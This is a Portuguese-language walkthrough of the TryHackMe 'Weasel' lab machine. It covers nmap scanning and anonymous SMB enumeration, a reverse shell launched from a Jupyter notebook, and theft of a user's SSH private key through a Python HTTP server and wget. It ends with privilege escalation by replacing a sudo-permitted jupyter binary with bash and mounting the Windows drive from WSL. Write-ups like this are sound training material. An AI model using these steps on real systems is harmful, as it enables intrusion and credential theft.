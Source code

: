 # Weasel - THM Challenge writeup

Recon NMAP 

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-18 16:42 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:42
Completed NSE at 16:42, 0.00s elapsed
Initiating NSE at 16:42
Completed NSE at 16:42, 0.00s elapsed
Initiating NSE at 16:42
Completed NSE at 16:42, 0.00s elapsed
Initiating SYN Stealth Scan at 16:42
Scanning weasel.thm (10.10.200.72) [19001 ports]
Discovered open port 22/tcp on 10.10.200.72
Discovered open port 445/tcp on 10.10.200.72
Discovered open port 139/tcp on 10.10.200.72
Discovered open port 3389/tcp on 10.10.200.72
Discovered open port 8888/tcp on 10.10.200.72
Discovered open port 135/tcp on 10.10.200.72
```

Porta 8888 HTTP service rodando

<img src="images/weasel/webapp.png">

Nada aparente nessa página, FFUF não retornou nenhuma URL. Descobrimos que a aplicação é python em um TornadoServer 6.0.3.

Vamos enumerar outras outras portas. 

<img src="images/weasel/smbEnum.png">

Achamos algumas informações de usuário, vamos continuar buscando. Depois de algumas horas tentando achar informações sobre enumeração com smbclient achei esse comando: ```smbclient -L <IP> -p 445 -N```. A ferramenta vai enumerar todos os usuários smb do ip na porta 445.

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
datasci-team    Disk      
IPC$            IPC       Remote IPC
```

Então temos o usuário RPC datasci-team.


```smbclient \\\\\10.10.200.72\\datasci-team -N```. Como é a minha primeira máquina windows usando smbclient, não sabia a necessidade de usar as contrabarras. Elas escapam os caracteres especiais. 

Antes de dar continuidade precisamos entender o que é o smbclient. Smbclient é um CLI que usa o protocolo smb para troca de arquivos.  

```get <arquivo>``` - Faz download do arquivo na sua máquina.

<img src="images/weasel/token.png">

Achamos o token da aplicação web que olhamos no começo.

<img src="images/weasel/resetPass.png">

Lendo os arquivos, encontramos um arquivo com o nome ```weasel.ipynb```, vamos tentar usar a criatividade aqui.

<img src="images/weasel/jupyterWeaselFile.png">

Conseguimos executar scripts python3, então entramos no site https://www.revshells.com/ e montamos uma shell em python3. Essa shell precisa de modificações, pois dessa forma é feita com CLI do proprio python. 

<img src="images/weasel/revshell.png">


<img src="images/weasel/shell_Correta.png">

Aqui, temos a shell formatada. Como o python é interpretado na máquina que a aplicação web está hospedada a shell entrará também na máquina do escopo. 

<img src="images/weasel/whoami.png">

Ao abrirmos a shell padrão:

```export TERM=xterm```

<img src="images/weasel/sshPrivateKey.png">

Certo, vasculhando pelas informações do usuário, conseguimos achar a private key ssh do usuário. Então sabendo que a máquina tem python3, podemos montar um servidor HTTP python para fazer download do key.

```python3 -m http.server 8000```

Então usamos o wget para fazer o download na máquina hospedeira do usuário. 

```wget http://<ip>/<arquivo>```

<img src="images/weasel/getFIle.png">

Então adicionamos a permissão 600 para esse arquivo e entramos no ssh do usuário.

ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@ip

<img src="images/weasel/windowsSSH.png">

Então com o user em mãos, capturamos user.txt

<img src="images/weasel/usertxt.png">

Ambiente windows para escalação de privilégio, algo novo pra quem está acostumado com escalação linux. Vamos buscar no google por métodos de escalação de privilégio windows.


<img src="images/weasel/root.png">

Certo, então descobrimos que o arquivo jupter tem acesso ao su. 

```cp /bin/bash /home/dev-datasci/.local/bin/jupyter``` colocamos dentro do diretório jupyter com permissão de su, o arquivo binário do terminal bash do linux~.

Olhamos o diretório root e vimos que não temos a flag. Ou seja, um linux com windows... Isso tem cheiro de WSL. Vamos checar se é realmente WSL -
```cat /etc/wsl.conf ```.



Pesquisando um pouco, achamos esse milagroso comando:

sudo mount -t drvfs C: /mnt/c

Então, montamos de dentro do WSL o disco C.


<img src="images/weasel/final.png">
